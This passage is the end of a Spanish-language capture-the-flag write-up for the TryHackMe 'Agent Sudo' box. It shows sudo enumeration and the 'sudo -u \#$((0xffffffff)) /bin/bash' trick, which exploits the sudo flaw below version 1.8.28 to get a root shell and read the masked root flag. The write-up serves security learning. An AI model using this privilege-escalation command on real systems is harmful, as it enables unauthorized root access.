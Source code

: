 ```bash
james@agent-sudo:~$ sudo -l
[sudo] password for james: 
Sorry, try again.
[sudo] password for james: 
Matching Defaults entries for james on agent-sudo:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on agent-sudo:
    (ALL, !root) /bin/bash

```

Buscamos (ALL, !root) para localizar que se trata de una vulnerabilidad para las versiones inferiores a 1.8.28 de sudo en la que ejecutando un comando obtenemos ser root:

```bash
james@agent-sudo:~$ sudo -u \#$((0xffffffff)) /bin/bash
[sudo] password for james: 
root@agent-sudo:~# whoami
root
root@agent-sudo:~# ls
Alien_autospy.jpg  user_flag.txt
root@agent-sudo:~# cd /root
root@agent-sudo:/root# ls
root.txt
root@agent-sudo:/root# cat root.txt 
To Mr.hacker,

Congratulation on rooting this box. This box was designed for TryHackMe. Tips, always update your machine. 

Your flag is 
????????????????????????????????

By,
DesKel a.k.a Agent R
```

Obtenemos así la flag de root y el nombre de Agent R.

Muchas gracias por leer este Writeup. Espero que te haya gustado mucho!
